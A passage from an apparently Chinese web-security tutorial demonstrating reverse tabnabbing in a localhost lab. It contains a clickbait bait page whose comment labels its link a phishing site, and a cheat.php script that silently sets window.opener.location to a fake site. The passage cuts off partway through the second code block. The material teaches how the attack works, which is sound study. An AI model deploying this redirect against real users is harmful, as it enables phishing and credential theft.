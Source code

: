 <span class="hljs-tag">&lt;<span class="hljs-name">html</span>&gt;</span>
    <span class="hljs-tag">&lt;<span class="hljs-name">head</span>&gt;</span>
        <span class="hljs-tag">&lt;<span class="hljs-name">meta</span> <span class="hljs-attr">charset</span>=<span class="hljs-string">"utf-8"</span> /&gt;</span>
    <span class="hljs-tag">&lt;/<span class="hljs-name">head</span>&gt;</span>
    <span class="hljs-tag">&lt;<span class="hljs-name">body</span>&gt;</span>
        <span class="hljs-tag">&lt;<span class="hljs-name">div</span>&gt;</span>
        当前你在xx空间
        <span class="hljs-tag">&lt;/<span class="hljs-name">div</span>&gt;</span>
        <span class="hljs-tag">&lt;<span class="hljs-name">h1</span>&gt;</span>侯博士的分享<span class="hljs-tag">&lt;/<span class="hljs-name">h1</span>&gt;</span>
        <span class="hljs-tag">&lt;<span class="hljs-name">section</span>&gt;</span>
        咱们班当年班花，现在长这样：
        <span class="hljs-comment">&lt;!--这是咱们的钓鱼网站--&gt;</span>
        <span class="hljs-tag">&lt;<span class="hljs-name">a</span> <span class="hljs-attr">href</span>=<span class="hljs-string">"http://localhost:8082/lab/fish/cheat.php"</span> <span class="hljs-attr">target</span>=<span class="hljs-string">"_blank"</span>&gt;</span>点我查看<span class="hljs-tag">&lt;/<span class="hljs-name">a</span>&gt;</span>
        <span class="hljs-tag">&lt;/<span class="hljs-name">section</span>&gt;</span>
    <span class="hljs-tag">&lt;/<span class="hljs-name">body</span>&gt;</span>
<span class="hljs-tag">&lt;/<span class="hljs-name">html</span>&gt;</span></code></pre>
<p><span class="img-wrap"><img data-src="/img/bVB9PS" src="https://static.alili.tech/img/bVB9PS" alt="clipboard.png" title="clipboard.png" style="cursor: pointer; display: inline;"></span><br>图5.1.1<br>2 接着，我们在cheat.php这个网站上面，将跳转过来的源网页地址悄悄的进行修改。效果如图5.2.1</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="<!DOCYTPE HTML>
<html>
    <head>
        <meta charset=&quot;utf-8&quot; />
        <script src=&quot;https://ss0.bdstatic.com/5aV1bjqh_Q23odCf/static/superman/js/lib/jquery-1.10.2_d88366fd.js&quot;></script>
    </head>
    <body>
        你想看的信息：
        xxxxxxxxxxxxxx
        xxxxxxxxxxxxxx
        <script>
            // 在用户不知情的情况下，对跳转的来源网页进行地址替换
            window.opener.location = 'http://localhost:8082/lab/fish/myfishsite.php';
        </script>
    </body>
</html>" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="hljs xml"><code><span class="hljs-tag">&lt;<span class="hljs-name">!DOCYTPE</span> <span class="hljs-attr">HTML</span>&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-name">html</span>&gt;</span>
    <span class="hljs-tag">&lt;<span class="hljs-name">head</span>&gt;</span>
        <span class="hljs-tag">&lt;<span class="hljs-name">meta</span> <span class="hljs-attr">charset</span>=<span class="hljs-string">"utf-8"</span> /&gt;</span>
        <span class="hljs-tag">&lt;<span class="hljs-name">script</span> <span class="hljs-attr">src</span>=<span class="hljs-string">"https://ss0.bdstatic.com/5aV1bjqh_Q23odCf/static/superman/js/lib/jquery-1.10.2_d88366fd.js"</span>&gt;</span><span class="undefined"></span><span class="hljs-tag">&lt;/<span class="hljs-name">script</span>&gt;</span>
    <span class="hljs-tag">&lt;/<span class="hljs-name">head</span>&gt;</span>
    <span class="hljs-tag">&lt;<span class="hljs-name">body</span>&gt;</span>
        你想看的信息：
        xxxxxxxxxxxxxx
        xxxxxxxxxxxxxx